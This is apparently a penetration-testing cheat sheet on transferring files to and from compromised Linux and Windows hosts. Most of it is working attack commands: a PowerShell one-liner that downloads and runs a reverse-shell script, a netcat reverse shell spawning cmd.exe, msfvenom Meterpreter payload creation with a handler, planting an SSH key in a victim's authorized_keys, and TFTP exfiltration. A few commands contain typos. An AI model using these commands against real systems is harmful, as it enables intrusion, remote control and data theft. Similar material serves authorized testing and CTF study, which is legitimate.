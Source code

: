 - [Linux](#Linux)
  - [wget](#wget)
  - [curl](#curl)
  - [nc](#nc)
  - [tftp](#tftp)
  - [axel](#axel)
  - [php](#php)
  - [scp](#scp)
  - [ssh](#ssh)
  
- [Windows](#windows)
  - [FTP](#FTP)
  - [TFTP](#TFTP)
  - [SMB](#SMB)
  - [Nishang](#Nishang)
  - [Netcat](Netcat)
  - [Meterpreter](Meterpreter)
  - [Impacket](Impacket)

## Linux 

### wget
```
wget [url/with/file] -p [local/path]
```
### curl
```
curl -O [url/with/file]
```
### nc
```
nc -lvp [port] > sending.file
```
### tftp

- service atftpd start

### axel
```
transfer file from a FTP or HTTP server through multiple connections.
axel -n 10 --output=axel-test100Mb.db http://speedtest.ftp.otenet.gr/files/test100Mb.db
```

```
Metasploit, has an auxiliary TFTP server module at auxiliary/server/tftp. Set the module options, including TFTPROOT, which determines which directory to serve up, and OUTPUTPATH if you want to capture TFTP uploads from Windows as well.
```
### php
echo "<?php file_put_contents('nameOfFile', fopen('http://[my_server_ip:port/fileName', 'r')); ?>" file_one_server.php

### scp 

### ssh

#### puts file to the attacking machine
ssh root@[ip] "cat > proof.txt < proof.txt"

#### Get files from the attacking machine
ssh root@[ip] "cat exploit" > "exploit

#### Python simple HTTPServer
***python -m SimpleHTTPServer [port]

##### curl
curl -O http://[my_server_ip:port]/fileName

##### wget
wget http://[my_server_ip:port]/fileName

##### tftp
tftp [my_server_ip]
tftp > get myFile
OR
tftp [my_server_ip] <<< "get file"

#### SSH-SCP
***ssh key generation flow***
- ssh-keygen -t rsa -C "your@email.com"
- add *.pub public key to auhorized_keys on victim server
- echo "ssh-rsa ASD3NbN[..]vlldor..." > authorized_keys
- log in ssh -i private_key [name]@[victim_machine_ip] -p [port]

#### SCP
***copy file***
scp /your/file/path.ext [name]@[victim_server_ip]:/your/file/destination/path.ext

***copy dir***
scrp -r /your/dir/path [name]@[victim_server_ip]:/your/dir/destination/path

#### Netcat
# TODO

## Windows 

### HTTP Download file with with PowerShell
#### (new-object System.Net.WebClient).DownloadFile('http://[ip]/file.exe','D:\User\name\Desktop\file.exe')

### FTP 
#### In linux machine install python-pyftpdlib
```
- apt-get install python-pyftpdlib
- python -m pyftdlib -p 21
If you want to grant the anonymous user write access, add the -w flag as well.

On windows
- ftp [linux_ip]
- binary
- get file.exe
```
### TFTP
#### In linux machine strtign the server 
- service atftpd start
```
Metasploit, has an auxiliary TFTP server module at auxiliary/server/tftp. Set the module options, including TFTPROOT, which determines which directory to serve up, and OUTPUTPATH if you want to capture TFTP uploads from Windows as well.
```
- On windows
- tftp -i [linux_ip] GET file.exe

Exfiltrating files via TFTP is simple as well with the PUT action. The Metasploit server saves them in /tmp by default
- tftp -i linux-ip PUT file.txt

### SMB
- In linux machine, download smbserver.py from impacket project https://github.com/SecureAuthCorp/impacket
```
python smbserver.py ROPNOP /root/shells
```
- In windows machine
```
- dir \\[linux_ip]\ROPNOP
- copy \\[linux_ip]\ROPNOP\file.exe
```

#### Nishang
- git clone [Nishang](https://github.com/samratashok/nishang)
- edit InvokePowerShellTcp.ps1 /nishang/Shells/
paste *Invoke-PowerShellTcp -Reverse -IPAddress [your_ip] -Port [your_port]* on bottom of the file.
- run python HTTP server
  -python -m SimpleHTTPServer 443
  -python3 -m http.server 443
-In the victim shell: 
  powershell iex(new-object net.webclient).downloadstring('http://[your_ip:port]/Invoke-PowerShellTcp.ps1')
  
#### Netcat
- smbserver.py  
git clone [impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)

- create directory (for example test)
cp nc.exe to test

- run smbserver
python smbserver.py test smb

- run local nc
nc -lnvp 443

-In the victim shell
\\[your_ip]\test\nc.exe -e cmd.exe [your_ip]

#### Meterpreter
- create msfvenom payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[you_ip] LPORT=[your_port] -f asp > rs.asp

- use mstfconsole
exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost, lport and run

- execute reverse shell
curl http://10.10.10.5/rs.asp

#### Impacket 
- https://github.com/SecureAuthCorp/impacket
